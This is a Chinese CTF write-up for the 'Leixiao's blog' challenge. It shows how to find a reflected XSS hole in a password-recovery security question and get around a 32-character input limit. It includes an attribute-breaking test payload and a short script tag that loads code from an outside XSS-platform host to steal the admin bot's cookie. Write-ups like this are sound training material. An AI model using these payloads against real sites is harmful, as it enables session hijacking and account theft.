 # Leixiao's blog --淚笑
## 考察知识点：
### 1.xss
### 2.信息收集

进入界面，注册账号登陆，发现一个Wrinting写的东西会在首页回显，但是主页只有自己的用户能看到，构造的xss,抓不到管理员cookie

继续浏发现密码找回处，的密保问题有回显

![image](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/第十届极客大赛（成信大）/images/9F330BC3EF574AF7B415E0314E7B5062Leixiao's%20blog%20--淚笑1.png)

观察value值构造xss:"><scRipT>alert(1);</sCriPt>
![image](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/第十届极客大赛（成信大）/images/6E8AF331D4BD4293B0E3E699F815944BLeixiao's%20blog%20--淚笑2.png)

![image](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/第十届极客大赛（成信大）/images/F62BA2E422DF4955A152212984C6B101Leixiao's%20blog%20--淚笑3.png)

找回12139密码时：弹出了 1

此时构造能获取cookie的payload,采用xss平台的payload:`<Img sRC=http://xssye.com/eLIt.jpg>`

但是发现有长度限制，不能超过32位

采用xss平台最短，payload:<sCRiPt/SrC=//xssye.com/eLIt>
![image](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/第十届极客大赛（成信大）/images/FC10620D4DC0428C8AF15B891CAAA0FELeixiao's%20blog%20--淚笑4.png)

注册为12141用户，当访问12141用户的忘记密码界面时即会触发xss

将12141用户忘记密码连接发送到用户后台，后台机器人会去触发，即可拿到flag

